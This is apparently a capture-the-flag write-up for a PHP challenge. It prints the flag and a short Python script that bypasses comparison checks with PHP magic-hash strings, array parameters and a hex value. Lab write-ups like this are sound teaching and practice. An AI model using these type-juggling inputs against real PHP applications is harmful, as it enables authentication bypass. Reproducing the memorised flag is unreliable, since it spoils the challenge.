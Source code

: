 # pr0d33p - Challenge Title

## Challenge Flag: hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}

## Write-up:

I had previously seen this type of challenges. So I better started creating automated script using python. The used code is-

```
import requests, re
headers = {'User-agent': 'Yes, I am a human.', 'Sagarmatha-Hacktoberfest-CTF': 'https://hacktober.tk/'}
params = {'ctf':'0e215962017', 'parm': '240610708', 'mrap': 'QNKCDZO'}
r = requests.post("https://php.0daygod.xyz/?hello=hi&world=0X10001&nice[]=a&ecin[]=b", headers = headers, data=params)

flag_list = re.findall('hacktoberfest_ctf{.*?}', r.text)

print(flag_list[-1])
```

Run this and got the flag ;p
